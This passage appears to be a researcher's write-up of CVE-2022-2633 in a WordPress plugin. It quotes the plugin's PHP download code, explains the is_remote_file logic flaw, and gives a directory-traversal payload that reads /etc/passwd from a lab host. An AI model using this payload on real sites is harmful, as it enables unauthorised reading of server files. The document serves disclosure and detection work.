 ```php
// Will Download 1 MB in chunkwise
$chunk = 1 * ( 1024 * 1024 );
$nfile = @fopen( $file, 'rb' );
while ( ! feof( $nfile ) ) {                 
	print( @fread( $nfile, $chunk ) );
    @ob_flush();
    @flush();
}
@fclose( $filen );	
```

So, the trick is that we have to set value of '$is_remote_file' to 'false' and we have if statement to make this value to false.

```php
// Detect the file type
if ( strpos( $file, home_url() ) !== false ) {
	$is_remote_file = false;
}		        		
          
if ( preg_match( '#http://#', $file ) || preg_match( '#https://#', $file ) ) {
    $formatted_path = 'url';
} else {
	$formatted_path = 'filepath';
}

if ( $is_remote_file ) {
	$formatted_path = 'url';
}

```

In above code, first if statement is checking the occurence of 'home_url()' in $file varibale where '$file' vairable is the value of 'dl' parameter and 'home_url' is a full URL of WordPress installation.

If 'dl' parameter has URL of WordPress path then value of '$is_remote_file' will be 'false'.

Now, we have to create a payload so I used a 'file:///' to read the file and added the URL of WordPress path to make $is_remote_file to false and then used a payload with directory traversal.

For example: We have target: http://lab.aman.local/wordpress/ which is running a wordpress at this path so I used a payload: - 

```
file:///http://lab.aman.local/wordpress/../../../../../../etc/passwd
```

Encoded the payload in base64 and send the request with the payload. Got the content of '/etc/passwd' in response as expected.

![image](../../../assets/images/CVE-2022-2633-6.png){: .imagePopup}
 

We have successfully exploited Unauthenticated Arbitrary File Download and SSRF. I also created a nuclei template for this vulnerability and you can find it [here](https://github.com/projectdiscovery/nuclei-templates/blob/master/cves/2022/CVE-2022-2633.yaml).